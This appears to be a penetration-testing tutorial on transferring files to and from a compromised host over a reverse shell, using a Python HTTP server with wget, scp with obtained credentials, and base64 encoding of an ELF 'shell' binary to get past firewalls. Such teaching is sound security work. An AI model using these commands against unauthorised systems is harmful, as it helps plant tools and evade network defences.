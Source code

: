 During any penetration testing exercise, it is likely that we will need to transfer files to the remote server, such as enumeration scripts or exploits, or transfer data back to our attack host. While tools like Metasploit with a Meterpreter shell allow us to use the Upload command to upload a file, we need to learn methods to transfer files with a standard reverse shell.

# Wget

There are many methods to accomplish this. One method is running a Python HTTP server on our machine and then using wget or cURL to download the file on the remote host. First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:

`cd /tmp`
`python3 -m http.server 8000`

Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:

`wget http://10.10.14.1:8000/linenum.sh`

# Using SCP

Another method to transfer files would be using scp, granted we have obtained ssh user credentials on the remote host. We can do so as follows:
`scp linenum.sh user@remotehost:/tmp/linenum.sh`

Note that we specified the local file name after scp, and the remote directory will be saved to after the :.

# Using Base64

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it. For example, if we wanted to transfer a binary file called shell, we can base64 encode it as follows:

`base64 shell -w 0`

Now, we can copy this base64 string, go to the remote host, and use base64 -d to decode it, and pipe the output into a file:

`echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell`

# Validating File Transfers

To validate the format of a file, we can run the file command on it:

`file shell`

As we can see, when we run the file command on the shell file, it says that it is an ELF binary, meaning that we successfully transferred it. To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. On our machine, we can run md5sum on it:

`md5sum shell`

Now, we can go to the remote server and run the same command on the file we transferred:

`md5sum shell`

As we can see, both files have the same md5 hash, meaning the file was transferred correctly.


